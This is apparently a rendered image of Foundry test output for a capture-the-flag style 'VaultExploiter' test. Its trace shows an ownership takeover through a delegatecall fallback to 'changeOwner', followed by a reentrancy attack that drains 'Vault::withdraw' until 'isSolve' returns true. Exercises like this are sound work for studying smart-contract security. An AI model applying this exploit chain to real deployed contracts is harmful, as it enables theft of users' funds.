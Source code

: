 
Ran 1 test for test/Vault.t.sol:VaultExploiter
[PASS] testExploit() (gas: 480539)
Traces:
  [500439] VaultExploiter::testExploit()
    ├─ [0] VM::deal(SHA-256: [0x0000000000000000000000000000000000000002], 1000000000000000000 [1e18])
    │   └─ ← [Return] 
    ├─ [0] VM::startPrank(SHA-256: [0x0000000000000000000000000000000000000002])
    │   └─ ← [Return] 
    ├─ [11125] Vault::fallback(0x000000000000000000000000522b3294e6d06aa25ad0f1b8891242e335d3b459, SHA-256: [0x0000000000000000000000000000000000000002])
    │   ├─ [5818] VaultLogic::changeOwner(0x000000000000000000000000522b3294e6d06aa25ad0f1b8891242e335d3b459, SHA-256: [0x0000000000000000000000000000000000000002]) [delegatecall]
    │   │   └─ ← [Stop] 
    │   └─ ← [Stop] 
    ├─ [22488] Vault::openWithdraw()
    │   └─ ← [Stop] 
    ├─ [532] Vault::canWithdraw() [staticcall]
    │   └─ ← [Return] true
    ├─ [339010] → new ReentrancyAttack@0xE536720791A7DaDBeBdBCD8c8546fb0791a11901
    │   └─ ← [Return] 1470 bytes of code
    ├─ [47600] ReentrancyAttack::attack{value: 100000000000000000}()
    │   ├─ [22560] Vault::deposite{value: 100000000000000000}()
    │   │   └─ ← [Stop] 
    │   ├─ [17089] Vault::withdraw()
    │   │   ├─ [9100] ReentrancyAttack::receive{value: 100000000000000000}()
    │   │   │   ├─ [8309] Vault::withdraw()
    │   │   │   │   ├─ [320] ReentrancyAttack::receive{value: 100000000000000000}()
    │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   └─ ← [Stop] 
    │   │   │   └─ ← [Stop] 
    │   │   └─ ← [Stop] 
    │   └─ ← [Stop] 
    ├─ [461] Vault::isSolve() [staticcall]
    │   └─ ← [Return] true
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    └─ ← [Stop] 

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 5.19ms (359.71µs CPU time)